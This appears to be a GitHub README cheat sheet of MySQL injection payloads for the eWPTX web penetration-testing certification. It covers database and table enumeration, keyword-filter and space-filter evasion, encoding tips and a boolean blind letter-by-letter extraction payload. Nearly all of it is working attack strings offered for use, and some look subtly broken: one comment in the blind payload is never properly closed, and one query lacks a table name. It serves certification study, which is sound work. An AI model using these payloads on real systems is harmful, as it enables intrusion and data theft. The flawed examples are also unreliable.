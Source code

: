 # eWPTX
List of useful commands for web penetration testing and eWPTX certification

## SQLi

### MySQL

**List database name**

```
SELECT DATABASE();-- -
```

**List the table of a specific database**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '';-- -
```

**List the table of a specific database with limit and offset**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '' LIMIT 1 OFFSET N;-- -
```

**List the columns of a specific table and database**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '';-- -
```

**List the nth column of a specific table**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '' AND ORDINAL_POSITION = N;-- -
```

**Concat query elements when spaces are not allowed**

```
SELECT/**/DATABASE();-- -
```

**Concat query elements when spaces AND comments are not allowed***

```
(SELECT(group_concat(table_name))FROM(INFORMATION_SCHEMA.tables)WHERE(table_schema=database()));-- -
```

**Basic camel case filter evasion**

```
SeLEcT gROup_cOnCaT(TabLE_NamE) FroM InfOrmaTioN_SchEma.TabLeS WhERe tABle_scHEmA =lower('');-- -
```

**Basic evasion if WHERE statement is not allowed**

```
SELECT * FROM GROUP BY HAVING ID=1;-- -
```

**Filter evasion where SQL keywords are not allowed**

```
sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_nZEROFILLaZEROFILLmZEROFILLe fZEROFILLrZEROFILLoZEROFILLm iZEROFILLnZEROFILLfZEROFILLoZEROFILLrZEROFILLmZEROFILLaZEROFILLtZEROFILLiZEROFILLoZEROFILLn_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa.tZEROFILLaZEROFILLbZEROFILLlZEROFILLeZEROFILLs wZEROFILLhZEROFILLeZEROFILLrZEROFILLe tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa = '';-- -
```

**Letter by letter database enumeration**

```
a' RLIKE (SELECT (
	CASE WHEN(
		ORD( /* string to ASCII conversion /*
			SUBSTRING( /* string, starting index, ending index */
			(
				SELECT IFNULL(CAST(table_name AS NCHAR),0x20)
				FROM INFORMATION_SCHEMA.TABLES
				WHERE table_schema=0x696e666f726d6174696f6e5f736368656d61 LIMIT 2,1
			)
		,11,1)
	)>64 /* check if the ASCII value of a specified letter is bigger than a specified value */
)
THEN 0x61 ELSE 0x28 END))
```

**Other tips**
* Encode query in base64
* Double-encode query in base64
* Use HEX conversion 
